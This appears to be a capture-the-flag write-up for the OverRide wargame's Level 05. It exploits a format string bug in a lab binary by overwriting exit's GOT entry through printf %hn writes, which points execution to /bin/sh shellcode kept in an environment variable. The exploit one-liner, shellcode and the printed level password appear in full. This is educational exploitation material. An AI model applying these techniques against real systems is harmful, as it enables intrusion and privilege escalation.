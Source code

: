 # Level 05

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level05
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level05@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ ls
level05
```

Okay, let's run the program.

```
level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAaaaaaaaaaaaAAaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level05@OverRide:~$
```

By looking at the execution result of the program, two things can be observed,
- the uppercase letters will be turned into lower case letters
- if the length of input is too long, the output will only print 99 characters

By looking at the decompiled source (or with GDB), the program uses `printf`, so there is a chance of us using a format string attack.

```
gdb-peda$ info functions
[...]
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
[...]
0x08048370  exit
0x08048370  exit@plt
[...]
```

`exit` is also called, and we can overrite the exit() in the GOT section (Global Offset Table). Let's find the GOT address of `exit`:

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```

We now have an address for `exit` (`0x080497e0`), and we need to provide a payload that contains a shellcode. In this case, we'll use a noop-sled in order to ensure our shellcode gets run correctly.

```
# our shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

# store create payload that stores shellcode
export PAYLOAD=$(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

With the shellcode stored into the environment variable, a program can be written to access the address of the shellcode.

```
level05@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	printf("env address: %p\n", getenv(argv[1]));
	return (0);
}
level05@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv  # NOTE: for 32bit
level05@OverRide:~$ export PAYLOAD=$(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:/tmp$ ./getenv PAYLOAD
env address: 0xffffdbb7                                    # NOTE: will change per machine
```

We now have address we want to overwrite (`exit`: `0x080497e0`) and the data we want to write (`PAYLOAD`: `0xffffdbb7`).

Unfortunately, `0xffffdbb7` is quite large in decimal (`4294958007`), and it doesn't make sense to print that many characters in order to write the correct value with `printf`'s `%n` functionality. (Theoretically it would take approximately 7 minutes, but we'll count that as too long for our purposes.)

Instead, we'll write the number as two separate `printf` `%n` exploits by splitting the number into two `short`s instead of an `int`. Our exploit will be in the following format:

```
AAAABBBB                        %n                                   %n
    ^ Points to second short    ^ After [first short value] bytes    ^ After [second short value] bytes
^ Points to first short           Takes AAAA as "param"                Takes BBBB as "param"
```
Here's the process for splitting the `int` into two `short`s:

| Step                                              | First `short`                                                                     | Second `short`                                                                          |
|---------------------------------------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------|
| Splitting the `int` (and moving to little-endian) | `0xffffdbb7`: original<br>`------^^^^`: selection<br>`------1122`: order of bytes | `0xffffdbb7`: original<br>`--^^^^----`: selection<br>`--1122----`: order of bytes       |
| Little-endian `short` value to write              | `0xdbb7`                                                                          | `0xffff`                                                                                |
| Decimal value of the hex `short`                  | `56247`                                                                           | `65535`                                                                                 |
| How many bytes written before?                    | 2 pointers (4 bytes each) = `8` bytes                                             | `56247` bytes                                                                           |
| Number of `char`s to pad up to                    | `56247` - `8` = `56239`                                                           | `65535` - `56247` = `9288`                                                             |
| Address to write to                               | `0x080497e0`                                                                      | `0x080497e0` + 2 bytes = `0x080497e2`<br>Note: We add 2 bytes because it's the second `short` |
| Argument offset (see below)                       | 10                                                                                | 11                                                                                      |

We need to find where in memory our string is being stored in order to pass in our own input as "arguments" into `printf`. Let's find out the offset we need to pass into `printf`.

```
level05@OverRide:~$ echo "AAAABBBB %x %x %x %x %x %x %x %x %x %x %x" | ./level05
aaaabbbb 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 62626262
```

So our two offsets are 10 and 11.

We'll need to print a certain number of characters before each `%n`. Instead of using Python to print these (which would be relatively slow), we'll use the zero padding (`%0`) functionality of `printf`. For example, `%015x` prints the stack where the first argument to `printf` would be (if there was one), zero-padded to be a total of `15` characters. We specify the offsets with the `$` functionality of `printf`.

Lights, camera, action!

```
level05@OverRide:~$ (python -c 'from struct import pack; print(pack("I", 0x080497e0) + pack("I", 0x080497e2) + "%056239u%10$hn" + "%09288u%11$hn")'; cat -) | ./level05
[...]00004160551616
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
^C
level05@OverRide:~$
```
